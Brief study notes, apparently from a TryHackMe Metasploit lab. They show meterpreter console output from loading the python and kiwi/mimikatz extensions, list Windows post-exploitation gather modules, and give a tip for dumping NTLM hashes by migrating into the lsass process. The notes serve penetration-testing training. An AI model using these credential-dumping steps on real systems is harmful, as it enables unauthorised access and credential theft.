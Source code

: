 
```
meterpreter > load python 
Loading extension python...Success. 
meterpreter > python_execute "print 'TryHackMe Rocks!'" 
[+] Content written to stdout: TryHackMe Rocks!
```

```
meterpreter > load kiwi 
Loading extension kiwi... 
.#####. mimikatz 2.2.0 20191125 (x64/windows) 
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo) 
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) 
## \ / ## > http://blog.gentilkiwi.com/mimikatz 
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com ) 
'#####' > http://pingcastle.com / http://mysmartlogon.com ***/ 
Success.
```

sysinfo
post/windows/gather/enum_domain
post/windows/gather/enum_shares


Get NTLM hashes:  Migrate to lssas.exe and run hashdump

Use help